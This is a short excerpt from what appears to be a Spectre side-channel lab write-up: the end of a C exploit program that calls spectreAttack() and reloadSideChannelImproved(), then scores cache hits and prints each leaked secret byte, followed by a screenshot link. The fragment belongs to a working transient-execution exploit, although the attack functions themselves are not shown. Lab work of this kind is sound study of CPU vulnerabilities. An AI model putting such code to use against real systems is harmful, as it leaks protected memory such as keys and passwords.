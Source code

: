 ```C
      spectreAttack(index_beyond);
      usleep(10);
      reloadSideChannelImproved();
    }

    max = 0;
    for (i = 0; i < 256; i++)
    {
      if (scores[max] < scores[i])
      {
        max = i;
      }
    }

    secret_length++;
    printf("The %dth secret value is %d -- %c\n", secret_length, max, max);
    printf("The number of hits is %d\n", scores[max]);
  }
  return (0);
}
```

![image-20220410162145198](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312726.png)

